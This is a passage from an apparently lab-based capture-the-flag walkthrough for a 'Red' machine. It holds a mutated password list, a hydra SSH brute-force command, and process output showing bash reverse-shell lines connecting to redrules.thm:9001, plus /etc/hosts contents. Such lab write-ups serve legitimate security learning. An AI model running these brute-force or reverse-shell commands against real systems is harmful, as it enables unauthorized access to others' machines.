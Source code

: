 ```
sup3r_p@s$w0rd!123
321!dr0w$s@p_r3pus
SUP3R_P@S$W0RD!123
Sup3r_p@s$w0rd!123
sup3r_p@s$w0rd!1230
sup3r_p@s$w0rd!1231
sup3r_p@s$w0rd!1232
sup3r_p@s$w0rd!1233
sup3r_p@s$w0rd!1234
.....
```
###### Lets use 'hydra' with the passlist to check for ssh credentials
```
hydra -l blue -P passlist.txt target-ip ssh
```
###### Nice!, Now lets login again.
![image](https://github.com/solocyberengineer/MrBud-Home/assets/90530825/1f62432b-7e2b-4403-b50c-1c34125a84e6)
###### It worked!

Step 5:
###### These bash random texts from red are annoying. Anyway lets stay strong mentally.<br>Use ps command and check whats processes are running
```
ps -aux --forest
```
###### Output:
```
.....
red        16215  0.0  0.1   6972  2612 ?        S    10:56   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red        16234  0.0  0.1   6972  2644 ?        S    10:57   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```
###### Interesting... It's making a connection to redrules.thm:9001 using bash. Lets try to ping 'redrules.thm' to find out its ip
```
ping redrules.thm
```
###### Wow, its taking ages but look at the ipv4, its weird. Lets check the '/etc/hosts' file
```
cat /etc/hosts
```
###### Output:
```
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```
###### Wow! Just Wow🤨.<br>Lets check if there is a server listening on 'redrules:9001'
```
```